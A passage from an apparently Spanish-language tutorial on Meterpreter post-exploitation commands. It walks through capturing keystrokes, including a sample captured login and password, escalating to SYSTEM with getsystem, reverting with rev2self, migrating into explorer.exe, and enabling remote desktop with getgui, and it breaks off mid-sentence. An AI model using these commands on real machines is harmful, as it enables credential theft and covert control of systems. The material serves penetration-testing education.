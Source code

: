 Dumping captured keystrokes…

<Ctrl> <LCtrl> t <Ctrl> <LCtrl> l <Esc> gmail.com <Return> usuario<Tab> passSuperSegura <Return>

Finalmente para detener el servicio basta con:

meterpreter > keyscan_stop

Stopping the keystroke sniffer…

getuid <Stdapi System Commands>, getsystem <Priv: Elevate Commands> y rev2self <stdapi System Commands>
Con estos comandos se pueden hacer operaciones de consulta y manipulación de cuentas de usuarios

##### Para obtener el usuario en sesión
```
> meterpreter > `getuid`

Server username: OWNER\Owner
```

##### Para obtener la cuenta del usuario SYSTEM

meterpreter > getsystem


##### got system (via technique 1).

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

##### Para volver a la sesión anterior

```
meterpreter > rev2self

meterpreter > getuid

Server username: OWNER\Owner
```

migrate <Core>
Permite migrar el proceso de Meterpreter a otro proceso activo, su uso es muy simple basta con especificar un PID activo (que puede ser consultado utilizando el comando “ps” de Meterpreter).

meterpreter > migrate 1780

De esta forma, cuando se cierre el proceso en ejecución anteriormente asociado al proceso de Meterpreter, este será “migrado” al proceso especificado, se recomienda que el PID sea el de el proceso explorer.exe o uno que tenga relación con los procesos del sistema operativo.

getgui
Con este comando es posible acceder al escritorio remoto de la maquina objetivo, en concreto, lo que permite este comando es activar el escritorio remoto de la maquina comprometida.

Su uso resulta muy sencillo:
